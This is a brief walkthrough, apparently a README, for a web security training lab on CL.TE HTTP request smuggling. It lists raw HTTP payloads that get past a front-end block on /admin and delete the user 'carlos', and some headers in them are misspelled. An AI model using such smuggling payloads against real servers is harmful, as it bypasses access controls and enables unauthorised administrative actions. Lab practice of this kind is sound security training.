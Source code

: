 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`

---

### step 1

send homepage (/) to repeater
change get request to post request
test payload

```
Tranfer-Encoding: chunked

0
GET /post?postId=5 HTTP/1.1
foo: x
```

![screenshot](./images/images_lab5/lab6_homepage_into_repeter_test_payload.png)

### step2

try to access admin

```
Tranfer-Encoding: chunked

0
GET /admin HTTP/1.1`
foo: x
```

![screenshot](./images/images_lab5/lab6_access_admin_page.png)

### step3

add payload

```
Tranfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0
```

![screenshot](./images/images_lab5/lab6_testing_admin_payload.png)

### step4

```
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0
```

![screenshot](./images/images_lab5/lab6_testing_payload_to_delete_carlos_account.png)

### step5

send request

![screenshot](./images/images_lab5/lab6_delete_carlos_account.png)

### step6

lab solved

![screenshot](./images/images_lab5/lab6_test_to_access_admin.png)
